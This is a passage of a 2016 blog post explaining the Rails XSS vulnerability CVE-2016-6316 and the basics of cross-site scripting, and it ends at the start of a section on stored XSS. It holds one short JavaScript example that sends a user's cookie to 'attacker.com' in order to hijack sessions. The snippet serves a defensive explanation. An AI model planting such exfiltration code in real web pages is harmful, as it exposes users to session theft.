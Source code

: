 ```yaml
---
id: 461
title: Do I really need to upgrade my Rails apps? (Understanding CVE-2016-6316)
date: 2016-10-23T14:31:29-04:00
author: Sid
layout: revision
guid: http://ducktypelabs.com/436-revision-v1/
permalink: /436-revision-v1/
---
```

Ruby and Rails security advisories, without exception, recommend that you upgrade your Rails app as soon as possible. If you&#8217;re strapped for time, it&#8217;s a totally understandable tendency to want to postpone upgrades and avoid extra work like fixing breaking tests unless absolutely necessary. Unfortunately, the descriptions of the problem being solved can be cryptic, and it can be hard to assess if you really need to do the upgrade.

**Note:** By &#8220;upgrade&#8221; we mean a &#8216;minor&#8217; or a &#8216;patch&#8217; upgrade. For example an upgrade from Rails `4.2.5.1` to `4.2.7.1`.

In this article, we&#8217;re going to look at Rails `5.0.0.1/4.2.7.1/3.2.22.3`, which fixes [CVE-2016-6316](https://groups.google.com/forum/#!topic/rubyonrails-security/I-VWr034ouk). The aims of this article are:

  1. To go over the basics of XSS vulnerabilities, how they can be exploited, and ways to mitigate them. 
  2. To increase your understanding about the specific problem being solved with the Rails `5.0.0.1/4.2.7.1` release which fixes CVE-2016-6316 &#8211; an XSS vulnerability in `ActionView`

## What is an XSS Vulnerability?

&#8220;XSS&#8221; stands for cross-site scripting. When your application has an XSS vulnerability, attackers can run malicious Javascript on your users&#8217; browsers. For example, consider a Javascript snippet like the following:

    var i = new Image;
    i.src = "http://attacker.com/" + document.cookie;
    

The above snippet, when run on a user&#8217;s browser, will cause the browser to make a request to `attacker.com` and send over the user&#8217;s cookie. Using this cookie, the attacker can proceed to hijack the user&#8217;s session and gain unauthorized access to secured areas of your app.

## Types of XSS Vulnerabilities

There are three major varieties of XSS:

**Reflected XSS**

A reflected XSS vulnerability arises when user input contained in a request is immediately reflected in the web application&#8217;s response. Exploiting a reflected XSS vulnerability involves crafting a request containing embedded Javascript that is reflected to any user who makes the request.

**Stored XSS**
